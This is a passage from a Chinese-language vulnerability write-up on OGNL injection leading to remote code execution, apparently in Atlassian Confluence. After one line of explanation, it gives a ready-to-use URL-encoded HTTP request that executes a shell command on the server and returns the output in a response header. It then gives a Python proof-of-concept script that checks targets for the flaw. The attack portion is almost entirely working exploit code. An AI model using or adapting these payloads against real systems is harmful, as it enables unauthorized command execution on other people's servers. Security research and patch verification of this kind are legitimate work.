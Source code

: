 在该函数中，造成了 OGNL 表达式的触发，并且传入的 namespace 可控 造成 RCE

![image-20221006223406598](assets\image-20221006223406598.png)

## 5 漏洞利用

### 5.1 payload

```php
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

### 5.2 exp

```python
import urllib.parse
import urllib3
import sys
import base64
import requests as req

urllib3.disable_warnings()


def poc(target: str) -> bool:
    ognl_expr = """${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-Confluence",1)}"""
    payload = "/%s/" % (ognl_expr)
    try:
        resp = req.get(target + "/%s/" % (urllib.parse.quote(payload)), verify=False, allow_redirects=False)
        return True if "X-Confluence" in resp.headers.keys() else False
    except Exception as e:
        return False
```